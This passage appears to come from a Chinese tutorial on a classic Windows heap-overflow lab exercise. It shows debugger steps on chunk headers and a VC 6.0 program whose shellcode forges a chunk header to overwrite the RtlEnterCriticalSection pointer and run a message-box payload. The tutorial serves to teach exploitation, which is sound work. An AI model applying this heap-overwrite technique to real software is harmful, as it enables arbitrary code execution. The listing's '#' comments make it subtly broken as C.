 单步到h1分配, 现在0x00360680是h1块的头部
![](/assets/img/exploit/2017-10-01-windows-binary-system-0day/0x002-007.png)

往下翻尾块的头部在0x00360750, 0x00360750-0x00360688=200, 中间相隔200 byte数据区
![](/assets/img/exploit/2017-10-01-windows-binary-system-0day/0x002-008.png)

单步到rep movsd, 现在数据区已经被0x90填充, 再往下就能覆盖尾块的头部
![](/assets/img/exploit/2017-10-01-windows-binary-system-0day/0x002-009.png)

继续VC 6.0新建一个工程, 贴入以下代码, 选择release版本
```
#include <windows.h>

char shellcode[]=
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\xb8\x20\xf0\xfd\x7f"
"\xbb\x03\x91\xf8\x77"		# RtlEnterCriticalSection的地址0x77f89103通过调试得到, 用来使shellcode调用ExitProcess时不产生异常
"\x89\x18"
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x30\x75\x6e\x67\x68\x77\x6f\x6f\x79\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90\x90"
"\x16\x01\x1A\x00\x00\x10\x00\x00"		# 按之前调试得到的数据写回
"\x88\x06\x36\x00\x20\xf0\xfd\x7f";		# 0x00360688 shellcode起始地址, 0x7ffdf020 RtlEnterCriticalSection的指针地址(固定不变)
```